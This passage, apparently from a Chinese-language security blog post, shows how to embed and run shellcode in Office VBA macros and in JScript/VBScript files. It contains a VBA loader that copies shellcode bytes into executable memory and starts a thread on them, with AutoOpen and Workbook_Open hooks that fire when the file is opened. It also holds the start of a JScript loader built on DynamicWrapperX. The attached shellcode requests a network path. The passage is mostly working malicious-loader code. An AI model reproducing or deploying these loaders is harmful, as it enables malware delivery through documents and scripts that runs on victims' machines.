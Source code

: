 ```
        bShellcode(3) = 255
        bShellcode(4) = 255
        bShellcode(5) = 192
        bShellcode(6) = 95
        bShellcode(7) = 185
        bShellcode(8) = 85
        bShellcode(9) = 3
        bShellcode(10) = 2
        bShellcode(11) = 2
        bShellcode(12) = 129
        bShellcode(13) = 241
        bShellcode(14) = 2
        bShellcode(15) = 2
        bShellcode(16) = 2
                .....................
lpMemory = VirtualAlloc(0, UBound(bShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    For i = LBound(bShellcode) To UBound(bShellcode)
        source = bShellcode(i)
        lResult = RtlMoveMemory(lpMemory + i, source, 1)
    Next i
    lResult = CreateThread(0, 0, lpMemory, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba) 

<br>

**将Shellcode嵌入到VBS和JS代码中**

subTee做了很多关于JS和DynamicWrapperX的研究。你可以找到一个[使用DynamicWrapperX DLL的POC](http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html)，根据他的研究，我将Shellcode嵌入到了JS和VBS中。有趣的是，我可以将Shellcode嵌入JScript或VBScript脚本中，再将这些脚本内嵌到HTML或“.hta”格式的文件中：

JScript：



```
/*
 * Author : Osanda Malith Jayathissa (@OsandaMalith)
 * Title: Shellcode to request a non-existing network path
 * Website: https://osandamalith
 * Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
 * Based on subTee's JS: https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04
 */
DX = new ActiveXObject("DynamicWrapperX"); 
DX.Register("kernel32.dll", "VirtualAlloc", "i=luuu", "r=u");
DX.Register("kernel32.dll","CreateThread","i=uullu","r=u" );
DX.Register("kernel32.dll", "WaitForSingleObject", "i=uu", "r=u");
var MEM_COMMIT = 0x1000;
var PAGE_EXECUTE_READWRITE = 0x40;
var sc = [
0xe8, 0xff, 0xff, 0xff, 0xff, 0xc0, 0x5f, 0xb9, 0x55, 0x03, 0x02, 0x02, 0x81, 0xf1, 0x02, 0x02, 0x02, 0x02, 0x83, 0xc7,
0x1d, 0x33, 0xf6, 0xfc, 0x8a, 0x07, 0x3c, 0x05, 0x0f, 0x44, 0xc6, 0xaa, 0xe2, 0xf6, 0xe8, 0x05, 0x05, 0x05, 0x05, 0x5e,
0x8b, 0xfe, 0x81, 0xc6, 0x29, 0x01, 0x05, 0x05, 0xb9, 0x02, 0x05, 0x05, 0x05, 0xfc, 0xad, 0x01, 0x3c, 0x07, 0xe2, 0xfa,
```
